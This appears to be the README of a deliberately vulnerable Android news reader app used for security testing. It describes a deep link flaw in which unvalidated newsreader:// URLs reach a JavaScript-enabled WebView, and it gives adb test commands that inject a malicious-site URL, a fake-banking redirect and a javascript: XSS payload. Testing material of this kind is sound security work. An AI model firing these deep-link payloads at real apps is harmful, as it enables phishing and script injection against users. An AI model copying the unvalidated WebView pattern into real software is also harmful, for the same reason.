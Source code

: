 # oxo-android-ben40 News Reader App

## Attack Vector 2: Deep Link URL Injection

**Vulnerability**: The app handles custom URL schemes (`newsreader://`) but forwards malicious URLs to WebView components without validation.

**Key Issues**:
- No URL validation in deep link parameters
- Direct forwarding to WebView with JavaScript enabled
- Missing domain allowlisting

**Difficulty**: Medium

## Testing

```bash
# Basic malicious URL injection
adb shell am start -W -a android.intent.action.VIEW -d "newsreader://article?url=https://malicious-site.com"

# Phishing attack
adb shell am start -W -a android.intent.action.VIEW -d "newsreader://redirect?to=https://fake-banking.com"

# JavaScript injection
adb shell am start -W -a android.intent.action.VIEW -d "newsreader://article?url=javascript:alert('XSS')"
```
